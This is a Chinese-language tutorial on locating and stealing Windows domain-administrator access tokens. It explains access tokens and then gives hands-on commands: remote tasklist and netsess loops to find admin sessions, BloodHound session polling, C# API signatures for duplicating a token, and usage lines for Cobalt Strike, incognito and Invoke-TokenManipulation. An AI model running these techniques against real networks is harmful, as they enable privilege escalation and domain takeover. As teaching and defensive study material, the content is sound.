


# 域管进程Token查找与窃取

### Token介绍

- **访问令牌**

  访问令牌(Acess Token)是描述进程或线程安全上下文的一个对象。令牌中的信息包括与进程或线程关联的用户帐户的标识和特权。当用户登录时，系统通过将用户密码与安全数据库中存储的信息进行比较来验证用户密码。如果密码已通过身份验证，则系统将生成访问令牌。代表该用户执行的每个进程都有此访问令牌的副本。

  当线程与安全对象进行交互或尝试执行需要特权的系统任务时，系统使用访问令牌来标识用户。访问令牌包含以下信息：

  - 用户帐户的安全标识符(SID)
  - 用户所属的组的SID
  - 登录SID--标识当前登录会话
  - 用户或用户组拥有的特权列表
  - 所有者SID
  - 主要组的SID
  - 用户创建安全对象而不指定安全描述符时系统使用的默认[DACL](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-control-lists)
  - 访问令牌的来源
  - 令牌是主要令牌还是模拟令牌
  - 限制SID的可选列表
  - 当前的模拟级别
  - 其他统计

- **令牌创建**

  当用户以交互方式登录或尝试与运行Windows的计算机建立网络连接时，登录过程将对用户的凭据进行身份验证。如果身份验证成功，则该过程将为用户返回一个SID，并为用户的安全组返回一个SID列表。计算机上的本地安全机构（LSA）使用此信息来创建**访问令牌**。这包括登录过程返回的SID，以及由本地安全策略分配给用户和用户安全组的用户权限列表。

  在LSA创建主要访问令牌之后，访问令牌的副本将附加到代表用户执行的每个线程和进程上。每当线程或进程与安全对象进行交互或尝试执行需要用户权限的系统任务时，操作系统都会检查与该线程关联的访问令牌以确定授权级别。

  访问令牌有两种，**主要令牌**(Primary Token)和**模拟令牌**(Impersonation Token)。每个进程都有一个主要令牌，用于描述与该进程关联的用户帐户的安全上下文。通常将主要访问令牌分配给流程，以表示该流程的默认安全信息。另一方面，模拟令牌通常用于客户端和服务器方案。模拟令牌使线程可以在与拥有该线程的进程的安全上下文不同的安全上下文中运行。**令牌只有重启或关机时清除，否则一直驻留在内存中**。

  

### 查找域管Token

因为令牌会驻留在内存和令牌代表用户执行的线程和进程上，所以通过枚举域管登录Session和域管进程获取域管Token。

- **Tasklist**

  使用net group “Domain Admins” /domain查询域管理组成员，查看tasklist /v命令列出进程的详细信息里包含进程所有者

  

  列出远程机器进程列表

  `FOR /F %i in (ips.txt) DO @echo [+] %i && @tasklist /V /S %i /U user /P password 2>NUL > output.txt`

- **Netsess**

  使用netsess对每个域机器进行枚举，查找域管session

  

  Domain Admin列表与活动会话列表交叉引用，以确定哪些IP地址上有活动的域令牌

  `FOR /F %i in (dcs.txt) do @echo [+] Querying DC %i && @netsess -h %i 2>nul > sessions.txt &&`

  `FOR /F %a in (admins.txt) DO @type sessions.txt | @findstr /I %a`

  调用了[NetSessionEnum](https://docs.microsoft.com/zh-cn/windows/win32/api/lmshare/nf-lmshare-netsessionenum?redirectedfrom=MSDN)接口

-  **BloodHound**

  采用轮询的方式查询域内Session

  `Invoke-BloodHound -CollectionMethod SessionLoop -LoopDelay 60 -MaxLoopTime 10`


### 窃取Token

- **基本原理**

  以进程所有者相同权限或者更高权限获取Token，利用获取到的token句柄启动新的进程。使用到的API:

  

  获取进程句柄

  ```c#
  [DllImport("kernel32.dll")]
          static extern IntPtr OpenProcess(ProcessAccessFlags dwDesiredAccess, [MarshalAs(UnmanagedType.Bool)] bool bInheritHandle, uint dwProcessId);
  ```

  根据进程句柄获取Token句柄

  ```c#
          [DllImport("advapi32.dll", SetLastError = true)]
          [return: MarshalAs(UnmanagedType.Bool)]
          static extern bool OpenProcessToken(IntPtr ProcessHandle, TokenAccessFlags DesiredAccess, out IntPtr TokenHandle);
  ```

  调整Token权限

  ```c#
          [DllImport("advapi32.dll", SetLastError = true)]
          [return: MarshalAs(UnmanagedType.Bool)]
          static extern bool AdjustTokenPrivileges(IntPtr TokenHandle,
             [MarshalAs(UnmanagedType.Bool)]bool DisableAllPrivileges,
             ref TOKEN_PRIVILEGES NewState,
             UInt32 Zero,
             IntPtr Null1,
             IntPtr Null2);
  ```

  复制Token

  ```c#
          [DllImport("advapi32.dll", CharSet = CharSet.Auto, SetLastError = true)]
          extern static bool DuplicateTokenEx(
              IntPtr hExistingToken,
              TokenAccessFlags dwDesiredAccess,
              IntPtr lpThreadAttributes,
              SECURITY_IMPERSONATION_LEVEL ImpersonationLevel,
              TOKEN_TYPE TokenType,
              out IntPtr phNewToken);
  ```

  使用复制的token创建新进程

  ```c#
          [DllImport("advapi32.dll", SetLastError = true, CharSet = CharSet.Auto)]
          static extern bool CreateProcessAsUserW(
              IntPtr hToken,
              string lpApplicationName,
              string lpCommandLine,
              IntPtr lpProcessAttributes,
              IntPtr lpThreadAttributes,
              bool bInheritHandles,
              CreationFlags dwCreationFlags,
              IntPtr lpEnvironment,
              string lpCurrentDirectory,
              ref STARTUPINFO lpStartupInfo,
              out PROCESS_INFORMATION lpProcessInformation);
  ```

  创建新进程还可以使用

  ```c#
          [DllImport("advapi32.dll", EntryPoint = "CreateProcessWithTokenW", SetLastError = true,CharSet = CharSet.Unicode,CallingConvention = CallingConvention.StdCall)]
          private extern static bool CreateProcessWithTokenW(
           IntPtr hToken,
           uint dwLogonFlags,
           String lpApplicationName,
           String lpCommandLine,
           uint dwCreationFlags,
           IntPtr lpEnvironment,
           String lpCurrentDirectory,
           ref STARTUPINFO lpStartupInfo,
           out PROCESS_INFORMATION lpProcessInformation);
  ```

  

#### 利用工具

##### Cobalt Strike

使用steal_token命令指定pid即可窃取进程的token，窃取之后，默认当前becon具有该token的权限

##### Tokenvator

[Tokenvator](https://github.com/0xbadjuju/Tokenvator/tree/master/Tokenvator)是netspi开发的一套Token利用工具，[netspi](https://blog.netspi.com/)干货蛮多的，可以关注一下。


##### incognito

查看token

`incognito.exe list_tokens -u`

以token启动进程

`incognito.exe execute -c "xxx\xxx" calc.exe`

msf集成了incognito

##### Invoke-TokenManipulation

列举token

`Invoke-TokenManipulation -Enumerate`

复制线程token启动新线程

`Invoke-TokenManipulation -CreateProcess "cmd.exe" -ThreadId 500`